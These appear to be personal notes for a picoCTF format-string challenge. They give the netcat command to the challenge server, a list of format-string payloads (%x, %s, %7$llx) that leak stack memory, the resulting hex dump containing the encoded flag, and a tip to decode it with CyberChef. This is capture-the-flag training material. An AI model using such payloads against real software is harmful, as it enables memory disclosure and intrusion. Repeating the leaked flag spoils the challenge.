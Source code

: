 https://play.picoctf.org/practice/challenge/105?category=6&page=1

nc mercury.picoctf.net 16439

"%x.%x.%x.%x"
%x.%x.%x.%x
%s.%s
%s.%s.%s.%s

%7$llx
%1$ls

%s%s%s%s

%%%%%%%%

%x.%x.%x.%x
%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x

%x%x%x%x
%x%x%x%x%x%x%x%x
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x


# Hex

6f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6263376365616336ffe8007df7fe4af8f7fb744086484e0010f7e46ce9f7fb80c0f7fa95c0

9e73390804b00080489c3f7fa9d80ffffffff19e71160f7fb7110f7fa9dc709e7218059e733709e733906f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6263376365616336ffe8007df7fe4af8f7fb744086484e0010f7e46ce9f7fb80c0f7fa95c0

Use CyberChef to decode -
